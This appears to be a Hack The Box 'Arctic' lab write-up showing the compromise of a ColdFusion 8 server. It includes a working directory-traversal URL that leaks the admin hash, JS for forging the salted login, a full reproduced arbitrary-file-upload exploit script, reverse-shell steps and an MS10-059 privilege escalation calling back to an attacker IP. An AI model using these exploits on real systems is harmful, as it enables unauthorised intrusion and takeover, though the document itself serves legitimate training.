Arctic


nmap

Making note of the services running:
Ports 135 & 49154: running Microsoft Windows RPC. (SMB)
Port 8500: possibly running Flight Message Transfer Protocol (FMTP).
enumeration
lets start off our enumeration phase by visiting port 8500
/CFIDE
is an interesting directory, lets navigate to that first
/administrator
we see we get a login page is the version of coldfusion the server is running, lets see if theres anything searchsploit has on it...
is the version of coldfusion the server is running, lets see if theres anything searchsploit has on it...
intitial foothold

Lets fire up searchsploit for Coldfusion 8 vulns

After reviewing the exploits, two of them stand out:
14641 — Directory Traversal. We’ll use that to get the password of the administrator.
45979 — Arbitrary file Upload. We’ll use that to get a reverse shell on the target machine.
with metasploit
localhost proxy listenerfckeditor reverseshell
localhost proxy listener
First set up a proxy listener in burp so we can capture the packets of our coldfusion exploit as we launch it
fckeditor reverseshell

run the exploit to catch the request through burpsuite and send to repeater

we see our exploit successfully uploaded our reverse shell and saved it in the directory /userfiles/file/YI.jsp, we can navigate to that URL in our browser to run it

when we navigate to the jsp file we uploaded we run our reverse shell

w/o metasploit
searchsploitdirectory traversal LFI
searchsploit
searchsploit adobe coldfusion version 8 and see what comes up:we're only interested in version 8 and before...

After reviewing the exploits, two of them stand out:
14641 — Directory Traversal. We’ll use that to get the password of the administrator.
45979 — Arbitrary file Upload. We’ll use that to get a reverse shell on the target machine.
directory traversal (LFI)
Lets take a look at the directory traversal exploit and see how it works:
we don't need to run the exploit, we can plug the directory traversal url into our browser

to this url

or http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en for the arctic box
there are additional notes from the sourcecode in case we run into blocked directories:

admin pass
the password is outputted onto the screen!
is outputted onto the screen!2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03

Crackstation
we can also use crackstation to uncover the hash:
happyday is our password BUT it will not work as the admin page only takes the salted hash
pagesource
Right click on the page and select View Page Source. There, we find three pieces of important information on the steps taken to send the password to the backend.1) The password is taken from the password field and hashed using SHA1. This is done on the client side.
2) Then the hashed password is HMAC-ed using a salt value taken from the parameter salt field. This is also done on the client side.
3) The HMAC-ed password gets sent to the server with the salt value. There, I’m assuming the server verifies that the hashed password was HMAC-ed with the correct salt value.

the password
 is a hash of the real password
is a hash of the real passwordTherefore, instead of cracking the password (which can take a long time!) we can calculate the cfadminPassword.value and use an intercepting proxy to bypass the client side calculation.
webpage console
To quickly calculate the cfadminPassword value use the Console in your browser Developer Tools to run the following JS code.console.log(hex_hmac_sha1(document.loginform.salt.value, ‘2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03'’))


now lets intercept the login packet with burpsuite and plug this value into cfadminPassword:
Note: we only have a 30-second window to enter this hash before the salt updates so be quick! If you miss the timing you can generate the new salted hash either way and keep trying

admin
a few botched attempts and regenerated hashes and WE'RE IN!
reverse shell through file upload
If we take a look at the admin capabilities, under the debugging and logging tab we can see we have the ability to schedule a task to be run, lets take a closer look at this
scheduling a task
from here upload our msfvenom jsp reverse shell and schedule it to run as often as possible, then set up a listener and connect back
To be continued...use arrexel's reverse shell for now
arrexel reverse shell
A fellow hacker and htb enthusist named arrexel also uploaded an arbitrary file upload in his arctic writeup also, I want to use his exploit to gain a foothold on the box as well
arbitrary file upload by arrexel



exploit
#!/usr/bin/python
# Exploit Title: ColdFusion 8.0.1 - Arbitrary File Upload
# Date: 2017-10-16
# Exploit Author: Alexander Reid
# Vendor Homepage: http://www.adobe.com/products/coldfusion-family.html
http://" + ip + ":" + port + path
# Exploit Title: ColdFusion 8.0.1 - Arbitrary File Upload
# Date: 2017-10-16
# Exploit Author: Alexander Reid
# Vendor Homepage: http://www.adobe.com/products/coldfusion-family.html
# Version: ColdFusion 8.0.1
# CVE: CVE-2009-2265
#
# Description:
# A standalone proof of concept that demonstrates an arbitrary file upload vulnerability in ColdFusion 8.0.1
# Uploads the specified jsp file to the remote server.
#
# Usage: ./exploit.py <target ip> <target port> [/path/to/coldfusion] </path/to/payload.jsp>
# Example: ./exploit.py 127.0.0.1 8500 /home/arrexel/shell.jsp
import requests, sys
try:
ip = sys.argv[1]
port = sys.argv[2]
if len(sys.argv) == 5:
path = sys.argv[3]
with open(sys.argv[4], 'r') as payload:
body=payload.read()
else:
path = ""
with open(sys.argv[3], 'r') as payload:
body=payload.read()
except IndexError:
print 'Usage: ./exploit.py <target ip/hostname> <target port> [/path/to/coldfusion] </path/to/payload.jsp>'
print 'Example: ./exploit.py example.com 8500 /home/arrexel/shell.jsp'
sys.exit(-1)
basepath = "
http://" + ip + ":" + port + path
print 'Sending payload...'
try:
req = requests.post(basepath + "/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/exploit.jsp%00", files={'newfile': ('exploit.txt', body, 'application/x-java-archive')}, timeout=30)
if req.status_code == 200:
print 'Successfully uploaded payload!\nFind it at ' + basepath + '/userfiles/file/exploit.jsp'
else:
print 'Failed to upload payload... ' + str(req.status_code) + ' ' + req.reason
except requests.Timeout:
print 'Failed to upload payload... Request timed out'
vi arrexel_exploit.py
Copy and paste arrexel's code into a vi file we create and give it execute permissions:
jsp generated payload w/ msfvenom
we'll use the /java/jsp_shell_reverse_tcp payload to connect back to our attacking machine
run
usage: so we'll use python arrexel_exploit.py 10.10.10.11:8500 shell.jsp and set up a listener

lets navigate to the URL specified and...



privesc
windows exploit suggesterms01-059 -> chimichurri
windows exploit suggester
to run windows exploit suggester on our box, we have to first get the system info and copy it to a file on our attack machinefirst lets update the database

copy the box's systeminfo from our reverse shell and save it into a sysinfo text file

now run the suggester with the updated database file and the sysinfo txt file

oof, have to update the xlrd library, lets do that
pip install xlrd

lets try again... success!

sysinfo
save this to our sysinfo textfile:
report
./windows-exploit-suggester.py --database 2020-05-28-mssb.xls --systeminfo /root/Documents/htb/boxes/arctic/sysinfo
ms10-059 -> chimichurri
a bunch of exploits work here but lets try one I know works
save it and move it to our working directory




upload with arrexel's file uploader
first we need to update arrexel's exploit to handle exe files instead of jsp
to:

lets run it again
python arrexel_exploit_exe.py 10.10.10.11 8500 MS10-059.exe

it uploads to the following directory on arctic:
cd C:\ColdFusion8\wwwroot\userfiles\file
run
Finally, lets run the privesc program from our initial foothold
run chimichurri (exploit.exe) and have it point back to our attacking machine
exploit.exe 10.10.14.62 6666

look back to our listener and ...

we are nt authority\system!
user/root

02650d3a69a70780c302e146a6cb96f3

ce65ceee66b2b5ebaff07e50508ffb90
Lessons Learned
Check out Rana Khalil's OSCP writeups and prep at https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/